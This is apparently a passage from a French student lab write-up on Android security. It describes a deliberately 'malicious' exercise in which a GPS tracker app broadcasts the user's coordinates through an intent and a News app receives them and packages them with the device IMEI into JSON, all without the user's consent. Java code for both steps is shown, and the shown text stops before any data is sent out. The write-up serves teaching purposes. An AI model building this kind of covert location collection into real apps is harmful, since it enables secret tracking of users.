 ```java
    }
```

## Partie 3 : Collecter les données GPS de l'utilisateur

Cette dernière partie consitait à creer notre attaque malicieuse à savoir collecter les données GPS de l'utilisateur (sans son consentement) sur l'application News. Pour cela il fallait faire communiquer l'application GPS, qui arrive à traquer le position de l'utilisateur même en arrière plan, avec l'application de News.

### 1. Broadcast d'un intent à chaque nouvelle coordonées GPS sur l'application gpstracker

Sur le service il faut pouvoir envoyé un intent à l'application News. J'ai donc utilisé la fonction `sendBroadcast(Intent intent)`qui envoie un intent (en brodcast aux applications) contenant les données GPS dans un tableau.

```java 
String[] data = new String[2];
data[0]=latitude.toString();
data[1]=longitude.toString();
Intent intent = new Intent();
intent.addFlags(Intent.FLAG_INCLUDE_STOPPED_PACKAGES);
intent.setAction("com.example.issarompion.broadcast");
intent.putExtra("position", data);
sendBroadcast(intent);
```


### 2. Creation du BroadcastReceiver sur L'application de News

Pour récuper les intents il faut créer un BroadcastReceiver qui est un objet qui receptionne les intents avec la méthode `onReceive(Context context, Intent intent)`. Ensuite j'ai décider de créer un JSON avec les données `imei`(récuperer sur l'activité MainActivity de la manière des TP précedant),`lat` et `lgn`pour l'envoie.

```java
public class MyReceiver extends BroadcastReceiver {
    

    public MyReceiver() {
    }

    @Override
    public void onReceive(Context context, Intent intent) {
        // TODO: This method is called when the BroadcastReceiver is receiving
        // an Intent broadcast.
        //Toast.makeText(context, "Intent Detected.", Toast.LENGTH_LONG).show();
        String[] location = intent.getStringArrayExtra("position");

        JSONObject json = new JSONObject();
        try {
            json.put("imei",MainActivity.IMEI);
            JSONObject coordinates = new JSONObject();
            coordinates.put("lat",location[0]);
            coordinates.put("lng",location[1]);
            json.put("coordinates", coordinates);
        } catch (JSONException e) {
            e.printStackTrace();
        }
    }
}
```
